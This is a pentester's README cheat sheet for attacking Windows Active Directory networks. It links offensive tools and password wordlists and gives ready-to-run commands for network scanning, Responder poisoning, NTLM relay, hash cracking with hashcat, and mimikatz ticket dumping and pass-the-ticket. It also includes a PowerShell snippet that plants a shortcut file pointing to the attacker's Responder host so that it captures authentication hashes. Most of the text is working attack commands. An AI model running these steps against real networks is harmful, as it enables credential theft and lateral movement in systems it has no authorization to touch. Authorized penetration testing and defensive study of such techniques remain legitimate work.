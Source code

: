 # Gunnajs-Playbook
How to pentest like a Gunnaj

## Tools bby

### linWinPwn - Active Directory Vulnerability Scanner
https://github.com/lefayjey/linWinPwn
### BloodHound
https://github.com/fox-it/BloodHound.py
### mimikatz
https://github.com/ParrotSec/mimikatz
### Responder
https://github.com/lgandx/Responder
### breach-parse
https://github.com/hmaverickadams/breach-parse
### PRET
https://github.com/RUB-NDS/PRET

## Wordlists bby
### Create your own wordlist
https://zzzteph.github.io/weakpass/
### Top 10 million
https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt (8.1 MB)

### Crackstation
https://crackstation.net/files/crackstation.txt.gz (14.6 GB)


### Large p-list
https://download.g0tmi1k.com/wordlists/large/36.4GB-18_in_1.lst.7z (48.4 GB)

### Rockyou2021

https://github.com/ohmybahgosh/RockYou2021.txt (91.6 GB)

# VEV

## Nmap
#### Ping scan
```bash
sudo nmap -sP -p <output.txt> <IP/mask>
```
#### Full scan
```bash
sudo nmap -PN -sC -sV -p- -oA <output.txt> <IP/mask>
```
#### smb vuln scan
```bash
sudo nmap -PN --script smb-vuln* -p139,445 -oA <output.txt> <IP/mask>
```
## Find DC IP
#### Show domain name and DNS
```bash
sudo mncli dev show eth0
```
#### Show DC IP
```bash
nslookup -type=SRV _ldap._tcp.dc._msdcs.<AD_domain>
```

## Responder
### Kickstart responder
```bash
responder -I eth0 -v
```

### Responder linkifle

#### In Powershell, use each command to create a linkfile for Responder
```powershell
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\Users\<User>\Desktop\<name>.lnk")
$lnk.TargetPath = "\\<ResponderIP>\@threat.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the dir this file lives in will perform an authentication request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

### Crackmapexec NTLM-relay
#### Evaluate no smb-signing
```bash
crackmapexec smb <IPs> --gen-relay-list <output.txt>
```
#### NTLMRelayx
```bash
sudo python3 ntlmrelayx.py -smb2support -tf <IPs>
```
#### Disbale SMB and HTTP in Responder.conf
```bash
[Responder Core]

; Servers to start
SQL = On
SMB = Off
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = On
HTTPS = Off
DNS = On
LDAP = On
DCERPC = On
WINRM = On
SNMP = Off
```

## linWinPwn 
### Unauthenticated
```bash
 sudo ./linWinPwn.sh -t <Domain_Controller_IP_or_Target_Domain> -M user <output_dir>
```
### With AD-user
```bash
sudo ./linWinPwn.sh -t <Domain_Controller_IP> -u <AD_user> -p <AD_password> -o <output_dir>
```

```
## SMB VEV
### Mount share
```bash
sudo mount.cifs <//ip/folder> <./folder> -o user=<username>,password=<password>,dom=<domain.com>
```
### Unmount share
```bash
sudo umount <./folder>
```
### Search for keywords in files
```bash
grep -i <keyword> *
```
## PRET
### Nmap printers
```bash
nmap -p 9100 <IP/mask>
```
```bash
pret.py target {ps,pjl,pcl}
```
## Zero Logon
* in the making 

### Crack NTLMv2 hashes
```bash
hashcat64.exe -m 5600 ntlm-hashes.txt <passlist.txt> -o cracked.txt
```
### Crack kerberos hashes
```bash
hashcat64.exe -m 13100 krb5tgs-hashes.txt <passlist.txt> -o cracked.txt
```
## Mimikatz
### Dump tickets
```bash
mimikatz.exe
privilege::debug
sekurlsa::tickets /export
```
### Pass the ticket
```bash
mimikatz.exe
kerberos::ptt <ticket>
klist
```
